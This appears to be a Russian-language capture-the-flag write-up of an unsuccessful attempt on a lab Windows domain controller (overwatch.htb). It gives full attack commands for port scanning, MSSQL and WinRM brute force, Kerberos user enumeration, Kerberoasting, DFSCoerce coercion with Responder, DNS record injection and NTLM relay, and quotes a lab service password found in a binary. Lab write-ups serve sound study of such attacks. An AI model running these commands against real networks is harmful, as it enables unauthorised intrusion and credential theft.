Исходные данные:10.129.244.81, машина с ОС Windows **(в течении врайтапа
мог меняться айпи адрес атакуемого хоста, так как машина множество раз
перезагружалась)**

Сбор информации:

В ходе разведки, было проведено быстрое SYN сканирование всех портов
хоста.

nmap -sS -p- -oN scan3.txt 10.129.244.81



Выявились все tcp порты, которые используются на данной машине. Далее я
стал проводить более подробное сканирование, добавляя опцию для
определения версий сервисов и опцию с базовым набором скриптов nmap.

Проводил несколько сканирований:

nmap -Pn -p
53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,6520,9389,49664,49668,64657,64658,64665,64682
-sC -sV -T5 10.129.244.81

nmap -sC -sV -p- 10.129.244.81

{width="7.088333333333333in"
height="3.6756299212598424in"}{width="7.088333333333333in"
height="5.621524496937883in"}

{width="7.088333333333333in"
height="1.7448206474190726in"}

UDP scan: nmap -sU 10.129.244.81 -oN scan3.txt

{width="7.088333333333333in"
height="2.9674376640419946in"}

**Результат анализа разведки:**

Это компьютер, возможно имеющий роль контроллера домена. Является DNS
сервером, поддерживает Kerberos, ldap.

Домен: overwatch.htb

Имя компьютера: S200401.overwatch.htb

Открыты winrm (без TLS) и rdp.

На нестандартном порту 6520 работает СУБД MSSQL.

Открыт 445 порт, возможно есть какие-нибудь шары.

Присутствуют базовые порты для msrpc.

\# Первоначальную разведку я проводил просто с опцией -sS и это не дало
мне выявить все порты. В этой машине еще используется нестандартный порт
6520,на котором работает СУБД MSSQL. Это дало мне урок, что опция -p- в
nmap тоже важна и стоит тоже проверять нестандартные порты.

Исследование порта 445:

Проверил анонимный доступ к шарам:

smbclient -L //10.129.244.81 -N -m SMB3

{width="7.088333333333333in"
height="2.430716316710411in"}

Присутствуют шары по умолчанию NETLOGON и SYSVOL и тд\... Из
нестандартного шара software\$

Проверил анонимный доступ к smb:

smbclient //10.129.244.81/software\$ -N -m SMB3

Результат: анонимный доступ разрешен:

{width="7.088333333333333in"
height="2.430716316710411in"}

Подключился анонимно к шаре software\$:

smbclient //10.129.244.81/software\$ -N -m SMB3

{width="7.088333333333333in"
height="4.552859798775153in"}

Обнаружил что там есть папка Monitoring, выкачал все файлы оттуда:
recurse ON , mget Monitoring, quit.

{width="7.088333333333333in"
height="3.94160542432196in"}

{width="7.088333333333333in"
height="1.7332086614173228in"}

Это типичная директория с .exe файлом и его потенциальными
зависимостями. Разведывание .exe файла и конфигов я подробно не
проводил, решил оставить на потом , т.к пробовал другие векторы. Но из
первоначального анализа файлов, выявил следующую инфу:

В файле overwatch.exe.config были обнаружены следующие данные:

строчка \"PublicKeyToken=b77a5c561934e089\";

строчка из конфигурационного файла (потенциально учетка с SPN):

\"\<service name=\"MonitoringService\"\"

MonitorService

Атаки на MSSQL:

Пробую проводить атаку перебора пароля учетных записей, потенциально
использующихся, использующихся по умолчанию в MSSQL. Для атаки
использовал инструмент hydra и словарь паролей rockyou.txt и
mssql-passwords-nansh0u-guardicore.txt:

hydra -l sa -P /usr/share/wordlists/rockyou.txt -t 64 -s 6520
mssql:///10.129.244.81

{width="7.088333333333333in"
height="3.494300087489064in"}

{width="7.088333333333333in"
height="3.319051837270341in"}

{width="7.088333333333333in"
height="3.4332950568678915in"}

Пробовал брутить учетки:

sa (учетка админа по умолчанию) -- брутил по словарям и со стандартными
парами логин:пароль (sa:sa, sa:password, sa: (без пароля))

MonitoringService / MonitorService (потенциальная сервисная учетка)

administrator

guest (позже выявленная)

Но брутфорс не дал результатов.

Атака перечисления пользователей:

В ходе тестирования была проведена атака перечисления пользователей, с
помощью инструмента kerbrute и словаря из набора Seclists:

./kerbrute_linux_amd64 userenum -d overwatch.htb \<словарь\>

(для того, чтобы атака работала, нужно добавить нужные записи в файлы
(/etc/hosts и /etc/resolv.conf)

{width="7.088333333333333in"
height="3.294837051618548in"}

Результат тестирования:

Сервисных учетных записей: MonitoringService, MonitorService,
Monitoring, Monitor -- не выявлено.

Выявлены действительные учетные записи:

administrator (судя по всему администратор домена)

guest (гостевая учетка

Атака работает по принципу:

AS REQ -\>

\< (Preauth required)

= учетка существует

AS REQ -\>

\<- C_PRINCIPAL_UNKNOWN

= клиент не найден

Атака AS REP Roasting

В ходе тестирования было выявлено, что атака AS REP Roasting на
действительные учетные записи (guest, administrator) невозможна,
поскольку у них включена преаутентификация, что видно при анализе
трафика атаки перечисления пользователей:

{width="7.088333333333333in"
height="3.261593394575678in"}

{width="7.088333333333333in"
height="3.328918416447944in"}

Атака Kerberoasting с учетной записи guest:

28.08 Попробовал Kerberoasting из под учетки guest, предварительно
получив TGT билет, через инструмент getTGT и экспортировав билет в
переменную KRB5CCNAME

{width="7.088333333333333in"
height="3.2542060367454066in"}

Результат: ошибка в SearchRequest. Мое предположение, что пользователь
guest не имеет право на ldap запросы и может действовать только в SMB.
Ведь, как показал анализ трафика, после bindRequest контроллер домена
почему то разрывает TCP соединение.

Почитал в интернете, что пользователь guest, это встроенная учетная
запись в AD, по умолчанию она отключена. Позволяет пользователям, не
имеющим учетной записи в домене, входить в этот домен, а также
пользователям, учетная запись которых отключена, но не удалена.

Вспомнил, также, что на хосте открыты порты 5985 winrm и 3389 RDP.

Исследование портов 5985(WinRM) и 3389(RDP) для пользователя guest:

Пробуем подключиться с помощью инструмента evil-winrm , используя для
этого аутентификацию по NTLMv2 и подключение без пароля, так как это
гостевая учетная запись:

{width="7.088333333333333in"
height="3.2982753718285216in"}

Сервер отвечает, кодом ответа 401, что эквивалентно: неправильному вводу
логина/пароля или некорректной авторизации.

Возможно дело, в протоколе NTLMv2. Тогда попробуем подключиться через
другой инструмент -- winrmexec.py, только уже с помощью аутентификации
по Kerberos, но для этого нужен TGT билет.

**Получение TGT билета от учетной записи guest:**

python3 getTGT.py overwatch.htb/guest -no-pass -dc-ip 10.129.8.214

{width="7.088333333333333in"
height="1.100300743657043in"}

Далее экспортируем в переменную, (нужно для корректной работы
инструментов)

mv guest.ccache /tmp

cd /tmp

export KRB5CCNAME=guest.ccache

Использование инструмента winrmexec.py и аутентификации по kerberos дало
тот же результат -- код ответа сервера 401:

{width="7.088333333333333in"
height="3.268405511811024in"}

Исследование порта 3389:

Пробую подключиться к сервису, используя инструмент xfreerdp3.

Попытка подключиться без TGT билета.

xfreerdp3 /v:10.129.8.214:3389 /u:guest /d:overwatch.htb

{width="7.088333333333333in"
height="3.388947944006999in"}

Попытка оказалась не успешной, также мне показалось странным в трафике,
что AS REQ и AS REP запросы идут по MAC-адресам, и все заканчивается
ответом от сервера \"PRE AUTH REQUIRED\", хотя я ввел пароль.

Попробовал подключиться, другим способом, явно указав доменное имя
хоста, вместо айпи адреса, чтобы использовать аутентификацию по
Kerberos, также перед этим получил TGT билет для учетки guest:

xfreerdp3 /v:S200401.overwatch.htb /u:guest@overwatch.htb
/d:overwatch.htb

{width="7.088333333333333in"
height="3.494300087489064in"}

Попытка подключиться также оказалась неуспешной, но закончилась она
другим ответом от сервера:

после TGS REQ, сервер прислал S_PRINCIPAL_UNKNOWN

{width="7.088333333333333in"
height="5.381443569553806in"}

Повторное исследование порта 445:

В ходе анализа файлов были обнаружены пути:

C:\\Users\\Administrator\\source\\repos\\overwatch\\overwatch\\MonitoringService.cs

c:\\users\\administrator\\source\\repos\\overwatch\\overwatch\\monitoringservice.cs

C:\\Users\\Administrator\\source\\repos\\overwatch\\overwatch\\Program.cs

c:\\users\\administrator\\source\\repos\\overwatch\\overwatch\\program.cs

Возникла гипотеза, что шара Monitoring, может маппиться в директорию
администратора, и если пользователь имеет guest права на запись, то это
возможна потенциальная RCE.

{width="7.088333333333333in"
height="3.37501312335958in"}

Результат:

Инструмент smbmap показал, что у пользователя guest, нет прав на запись,
только на чтение.

smbmap -H S200401.overwatch.htb -u guest -p \'\'

{width="7.088333333333333in"
height="2.514129483814523in"}

{width="7.088333333333333in"
height="1.3988353018372703in"}

Следовательно, загрузить, подменить какие либо файлы с помощью put в
smbclient нельзя =\> отмена вектора.

{width="7.088333333333333in"
height="6.639406167979002in"}

Далее был проведен, более тщательный анализ файлов из шары, и в файле
overwatch.exe удалось обнаружить утечку, через команду cat:

Server=localhost;Database=SecurityLogs;User
Id=sqlsvc;Password=TI0LKcfHzZw1Vv

Потенциальная учетная запись:

sqlsvc

TI0LKcfHzZw1Vv

{width="7.088333333333333in"
height="3.401956474190726in"}

Но как оказалось эта строчка была скрытой.

Потому что до этого я проводил разведку по этим файлам с помощью утилит
cat, strings, grep на ключевые слова Password, user, connection,
localhost и тому подобных строчек.

{width="7.088333333333333in"
height="3.287342519685039in"}

strings \* \| grep Password -C3 (опция -C3 означает 3 строки до и после
искомого слова)

strings \* \| grep Password -C3

cat \* \| grep Password -C3

И всё равно не обнаружил такую явную строчку. Она была видна только
через одиночный cat.

Этот момент послужил для меня уроком, что в первую очередь нужно
проводить анализ файлов самому, а только потом автоматизировать процесс.

**Исследование учетной записи sqlsvc и ее возможностей:**

Далее с помощью инструмента kerbrute я проверил, является ли учетная
запись sqlsvc валидной, учетной записью, инструмент показал, что это
действительно так:

{width="7.088333333333333in"
height="3.19173009623797in"}

**исследование winrm:**

Попытка подключиться по winrm используя kerberos оказалась неуспешной.
Сервер аналогично прошлому разу отдает ошибку 401:

{width="7.088333333333333in"
height="3.2559022309711287in"}

**Исследование mssql:**

С помощью инструмента crackmapexec проверил, подойдет ли пара логин и
пароль учетной записи sqlsvc для сервиса, mssql.

crackmapexec mssql 10.129.9.218 -u sqlsvc -p passwords.txt \--port 6520
\--local-auth

{width="7.088333333333333in"
height="3.3464227909011375in"}

Попытка входа в mssql оказалась неуспешной.

Аналогично, попробовал подключиться к бд, предварительно получив TGT
билет, и используя опцию \--use-kcache, без ввода пароля.

{width="7.088333333333333in"
height="0.4851170166229221in"}

Попытка входа также оказалась неуспешной. Сервер вернул ошибку Kerberos
(неизвестный сервис)

**Сбор информации об инфраструктуре:**

С помощью утилиты bloodhound-python удалось собрать информацию об
инфраструктуре, что также означает, что пользователь sqlsvc имеет права
на ldap запросы.

bloodhound-python -c all -u \'sqlsvc\' -p \'TI0LKcfHzZw1Vv\' -ns
10.129.9.218 -d OVERWATCH.HTB

{width="7.088333333333333in"
height="3.0036209536307963in"}

По результату внешнего сбора информации из под пользователя sqlsvc было
найдено:

1 домен, 6 компьютеров, 106 пользователей, 54 группы, 19 контейнеров, 2
OU.

#Удивило то, что было найдено более 100 пользователей, хотя я проводил
атаку перечисления.

Но, как оказалось, пользовательские учетные записи имеют вид
имя.фамилия@домен.

Чтобы перебирать имена и фамилии, нужен другой словарь, но и это такая
себе идея.

Нужен словарь системных учетных записей, ведь они также присутствуют в
инфраструктуре.

**Анализ инфраструктуры в bloodhound:**

Пользователь sqlsvc, состоит в двух группах: users, domain users

Локальным админом не является. Исходящего контроля над какими либо
объектами не имеет.

В инфраструктуре присутствует 2 учетки с правами администратора:
ADAM.RUSSEL и Administrator:

{width="7.088333333333333in"
height="3.431505905511811in"}

Был проведен анализ групп Remote Desktop Users и Remote Management
Users.

В группе Remote Management Users была обнаружена учетная запись SQLMGMT.

#Это означает, что именно она имеет право на winrm подключение / shell.

{width="7.088333333333333in"
height="3.3576312335958005in"}

Также в Bloodhound было показано, что у учетных записей sqlmgmt и
ADAM.RUSSEL включена преаутентификация, что исключает возможность атаки
AS REP Roasting на эти учетные записи.

**Атака kerberoasting из под учетной записи sqlsvc:**

C помощью инструмента GetUserSPNs из набора impacket не было выявлено
учетных записей имеющих SPN. Это подтверждает вывод результата работы
инструмента: No entries found. Что исключает возможность атаки.

python3 GetUserSPNs.py overwatch.htb/sqlsvc:\'TI0LKcfHzZw1Vv\' -request
-outputfile \~/Win/overwatch/SPNs.txt -k -dc-ip 10.129.9.218 -dc-host
S200401.overwatch.htb

{width="7.088333333333333in"
height="3.427812773403325in"}

**Атака перебора пароля учетной записи sqlmgmt на сервис winrm:**

В ходе исследования инфраструктуры, фоном, была запущена атака перебором
на сервис winrm, с помощью инструмента crackmapexec и словаря rockyou:

crackmapexec winrm 10.129.10.112 -u <sqlmgmt@overwatch.htb> -p
/usr/share/wordlists/rockyou.txt -p 5985 \--local-auth

{width="7.088333333333333in"
height="3.449974846894138in"}

Атака перебором также не дала результатов.

**Проверка известных уязвимостей в протоколах:**

В ходе тестирования, с помощью инструмента crackmapexec была выявлена
уязвимость протокола smb -- **dfscoerce. (данная уязвимость заключается
в том, что злоумышленник может заставить контроллер домена
аутентифицироваться по NTLM с его атакующей машиной, посредством вызова
RPC функций в DFS)**

crackmapexec smb 10.129.10.112 -u sqlsvc -p \'TI0LKcfHzZw1Vv\' -M
dfscoerce

{width="7.088333333333333in"
height="1.2753062117235345in"}

Уязвимость была также протестирована, с помощью эксплойта dfscoerce.py и
инструмента Responder, контроллер домена действительно принуждается к
NTLM аутентификации, как можно видеть на скриншоте (NTLMv2-SSP Hash
перехвачен):

{width="7.088333333333333in"
height="1.7862587489063868in"}

Но, данный хэш перебирать бесполезно, потому что контроллер домена это
сервисная учетная запись и пароль от нее генерируется.

Но раз, мы перехватили хэш контроллера домена, то потенциально, тут
может сработать атака ntlmrelay на такие сервисы как ldap, ldaps, winrm.

**Исследование dns сервера:**

В ходе тестирования, было выявлено, что пользователь sqlsvc может
добавлять DNS записи.

python3 dnstool.py -u \'overwatch.htb\\sqlsvc\' -p \'TI0LKcfHzZw1Vv\' -a
add -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d
10.10.14.57 10.129.2.21

{width="7.088333333333333in"
height="0.7068799212598426in"}

**Эксплуатация уязвимости DFSCoerce --\> попытка атаки NTLM relay на
другие сервисы:**

Так как NTLM аутентификация, приходит с протокола smb, то следовательно,
перенаправлять мы можем на такие сервисы, как: ldap, ldaps, winrm и
возможно mssql.

**Исследование ntlmrelay на ldap, ldaps:**

С помощью инструмента ldap-scanner.py было выявлено, что подпись для
ldap не трубется, это означает, что потенциально, возможен relay.

python3 ldap-scanner.py
<overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv'@10.129.2.46>

{width="7.088333333333333in"
height="0.9524945319335083in"}

Результат работы инструмента: LDAP signature not required

Попытка перенаправления аутентификации на ldap оказалась неудачной:
(Ответ сервера Invalid Credentials)

python3 ntlmrelayx.py -smb2support -t ldap://10.129.244.81 \--remove-mic

python3 dfscoerce.py -u sqlsvc -p \'TI0LKcfHzZw1Vv\' -d overwatch.htb
10.10.16.122 10.129.244.81

{width="7.088333333333333in"
height="3.308876859142607in"}

{width="7.088333333333333in"
height="2.107542650918635in"}

На ldaps, также не получилось:

{width="7.088333333333333in"
height="5.034248687664042in"}

Connection against target ldaps://10.129.244.81 FAILED: socket ssl
wrapping error: \[Errno 104\] Connection reset by peer

**Исследование ntlmrelay на winrm и mssql:**

**mssql:**

{width="7.088333333333333in"
height="3.419189632545932in"}

ERROR(S200401\\SQLEXPRESS): Line 1: Login failed. The login is from an
untrusted domain and cannot be used with Integrated authentication.

\[-\] (SMB): Authenticating against mssql://10.129.244.81:6520 as
OVERWATCH/S200401\$ FAILED

**Winrm:**

{width="7.088333333333333in"
height="3.294837051618548in"}

\[-\] (SMB): Connection against target winrm://10.129.244.81 FAILED:
Protocol Client for winrm not found!

**Результат тестов:** ntlm relay на сервисы атакуемого хоста невозможен,
так как абсолютно все отдают свои ошибки при попытке перенаправления.
=\> развить атаку через принуждение к NTLM аутентификации коннтроллера
домена не получится. Сервисы принимают его данные за invalid
credentials.

**Вывод и пометка на будущее:**

В ходе решения машины было попробовано множество разных векторов атак,
но ни один из них не привел к чему то большому. На текущий момент
решений по данной машине в открытом доступе не опубликовано и возможно я
вернусь к ней в будущем.
